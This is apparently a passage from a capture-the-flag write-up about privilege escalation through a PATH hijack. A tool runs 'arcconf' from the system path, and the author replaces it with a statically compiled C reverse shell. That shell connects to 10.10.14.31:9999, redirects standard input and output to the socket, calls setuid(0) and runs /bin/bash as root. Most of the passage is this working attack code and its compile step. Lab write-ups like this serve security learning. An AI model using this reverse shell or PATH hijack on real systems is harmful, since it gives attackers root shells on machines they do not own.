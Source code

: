     - Command    : arcconf-pd-info
      Executables: arcconf 
      Parameters : GETCONFIG 1 PD
    
    The program searches for executables in the system path.
    
    Variables given as {{variable}} are expected on the command line as:
      --variable VALUE
    
    VALUE can include space, A-Z, a-z, 0-9, _, -, /, and .


I tried msfvenom and got stuck for a while, you'll note that there's an extra `setuid(0)` here which is a requisite in the call chain for my binary to execute as root. 


```python
!cat arcconf.c
```

    #include <stdio.h>
    #include <sys/socket.h>
    #include <sys/types.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <netinet/in.h>
    #include <arpa/inet.h>
    
    int main(void){
        int port = 9999;
        struct sockaddr_in revsockaddr;
    
        int sockt = socket(AF_INET, SOCK_STREAM, 0);
        revsockaddr.sin_family = AF_INET;       
        revsockaddr.sin_port = htons(port);
        revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.31");
    
        connect(sockt, (struct sockaddr *) &revsockaddr, 
        sizeof(revsockaddr));
        dup2(sockt, 0);
        dup2(sockt, 1);
        dup2(sockt, 2);
    
        char * const argv[] = {"/bin/bash", NULL};
        setuid(0);
        execvp("/bin/bash", argv);
    
        return 0;       
    }


Warnings are just a suggestion anyway.

```sh
$ gcc -o arcconf arcconf.c -static
arcconf.c: In function ‘main’:
arcconf.c:25:5: warning: ignoring return value of ‘setuid’ declared with attribute ‘warn_unused_result’ [-Wunused-result]
   25 |     setuid(0);
      |     
```
